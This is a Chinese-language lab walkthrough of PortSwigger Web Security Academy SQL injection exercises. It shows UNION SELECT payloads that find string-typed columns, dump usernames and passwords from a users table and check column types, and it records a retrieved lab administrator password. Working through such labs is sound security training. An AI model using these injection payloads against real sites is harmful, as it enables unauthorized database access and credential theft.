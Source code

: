 ![image-20221116204720663](images/image-20221116204720663.png)

## T3查找具有有用数据类型的列

通常对我们有用的数据类型都是字符串的形式。

``````SQL
Accessories' UNION SELECT 'nEsVgZ',NULL,NULL-- 
Accessories' UNION SELECT NULL,'nEsVgZ',NULL-- 
Accessories' UNION SELECT NULL,NULL,'nEsVgZ'-- 
``````

用第二行测试的时候能返回出数据，说明字符串变量在中间。

## T4union攻击检索相关数据

```SQL
Accessories' union select username,password from users--
```

获取其他有用的表名以及某些列名[在 SQL 注入攻击中检查数据库 |网络安全学院 (portswigger.net)](https://portswigger.net/web-security/sql-injection/examining-the-database)

爆得管理员账号和密码：`administrator`   `oqo2a0518xsi2ewtfs44`

## T5检索单个列中的多个值

> 为什么要让返回的多个字段拼接成一个字段的原因：
>
> > 因为注入点的限制发现，有用的字符类型 的列只有一列（也就是只能查到一个字段的数据），
> >
> > 而我们需要的数据有好几列，所以想要查到的数据完整，只能用拼接的方式。

检查列数和字符列是哪一个：

```SQL
Accessories' union select null,'aca'-- 
#试过第二列一列是字符型
```

